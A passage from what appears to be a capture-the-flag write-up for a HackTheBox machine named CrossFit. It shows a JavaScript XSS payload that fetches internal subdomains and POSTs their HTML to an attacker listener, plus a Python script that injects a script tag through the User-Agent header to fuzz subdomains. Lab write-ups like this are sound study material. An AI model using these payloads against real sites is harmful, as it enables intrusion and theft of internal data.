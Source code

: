 ```python

if __name__ == '__main__':
    run_server()

# used python3 server.py > output.txt 
# because i was lazy
```

The `zxx` check is there because I noticed a lot of the results returned that, and it was for the default Apache page.

Here's my Javascript file:

```js
var scriptSrc = document.currentScript.src;
var url = new URL(scriptSrc);
var customSubdomain = url.searchParams.get('fuzz');
fetch('http://' + customSubdomain + '.crossfit.htb')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000/exfil', {
      method: "POST",
      body: html,
    })
  });
```

And lastly, the payload script:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://gym-club.crossfit.htb'

wordlist = open('/usr/share/seclists/Discovery/Web-Content/common.txt', 'r')

for line in wordlist:
	sub = line.strip('\n')
	payload = f'''<script src="http://10.10.14.13/steal.js?fuzz={sub}"></script>'''

	headers = {
		'User-Agent':payload
	}
	data = {
		'name':'Test',
		'email':'test@test.com',
		'phone':'test',
		'message':'<script>',
		'submit':'submit'
	}

	r = requests.post(URL + '/blog-single.php', data=data, headers=headers, verify=False, proxies=proxies)
```
